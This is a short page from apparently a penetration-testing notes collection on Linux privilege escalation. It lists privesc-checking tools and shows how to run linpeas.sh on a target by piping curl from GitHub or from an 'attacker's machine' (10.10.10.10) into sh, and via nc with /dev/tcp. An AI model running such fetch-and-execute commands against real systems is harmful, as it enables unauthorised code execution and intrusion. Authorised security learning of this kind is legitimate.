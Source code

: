 # Privilege Escalation

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.
{% endhint %}

TODO: Add contents links at the top of each page, and references section at the bottom...Add code examples and perhaps screenshots for each example

## Tools

* [BeRoot - Privilege Escalation Project - Windows / Linux / Mac](https://github.com/AlessandroZ/BeRoot)
* [linuxprivchecker.py - a Linux Privilege Escalation Check Script](https://github.com/sleventyeleven/linuxprivchecker)
* [unix-privesc-check - Automatically exported from code.google.com/p/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)
* [Privilege Escalation through sudo - Linux](https://github.com/TH3xACE/SUDO\_KILLER)

## `linpeas.sh`

#### Execute from github

```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

#### Execute from attacker's machine

```bash
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh
```

#### &#x20;Execute from attacker's machine (Without curl)

```bash
sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh
```

#### &#x20;Output to file

```bash
# -a to execute all the checks
linpeas -a > /dev/shm/linpeas.txt

#Read with colors
less -r /dev/shm/linpeas.txt
```
